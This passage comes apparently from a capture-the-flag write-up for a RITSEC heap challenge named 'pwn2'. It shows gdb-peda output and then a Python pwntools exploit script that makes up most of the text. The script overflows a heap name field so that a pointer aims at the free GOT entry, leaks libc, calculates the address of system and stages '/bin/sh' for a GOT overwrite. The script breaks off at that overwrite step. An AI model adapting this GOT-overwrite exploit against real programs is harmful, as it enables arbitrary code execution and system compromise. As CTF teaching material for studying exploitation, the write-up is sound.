 gdb-peda$ x/wx 0x08191028
0x8191028:	0xf7da6940
gdb-peda$ print system
$1 = {&lt;text variable, no debug info&gt;} 0xf7da6940 <system>
</pre>

### Solution / Exploit
```python
#!/usr/bin/python2
from pwn import *
from binascii import hexlify

def add(length, name, age):
    p.sendlineafter("choice: ", "1")
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)
    p.sendlineafter("age: ", str(age))

def edit(index, length, name, age):
    p.sendlineafter("choice: ", "2")
    p.sendlineafter("index (0-based): ", str(index))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("name: ", name)

def view(index):
    p.sendlineafter("choice: ", "3")
    p.sendlineafter("index (0-based): ", str(index))

def remove(index):
    p.sendlineafter("choice: ", "4")
    p.sendlineafter("index (0-based): ", str(index))


printPerson = 0x080ebb10
free_GOT    = 0x08191028
with context.quiet:
    p = process('./pwn2', env = {'LD_PRELOAD': './libc.so.6'})
    #p = remote('fun.ritsec.club', 1337)

    add(0x16, "AAAA", 1) 
    add(0x16, "BBBB", 2) 
    add(0x16, "CCCC", 3) 
    add(0x16, "/bin/sh\0", 4) 

    #Overflow and overwrite P[2]->name ("CCCC\n") with free@GOT
    edit(1, 
         0x30, 
         "B"*0x20 + p32(printPerson) + p32(free_GOT), 
         2)

    #Leak free@LIBC
    view(2)
    leak = hexlify(p.recvuntil("\nAge").split()[1][0:4])
    #Format, flip endianness etc
    free_LIBC = int("0x"+"".join(reversed([leak[i:i+2] for i in range(0, len(leak), 2)])), 16)
    print "free@LIBC: %s" % hex(free_LIBC)

    #Calculate system@LIBC
    system_LIBC = free_LIBC - 0x35e10
    print "system@LIBC: %s" % hex(system_LIBC)

    #Overwrite free@GOT's ptr to free@LIBC
    #with system@LIBC
```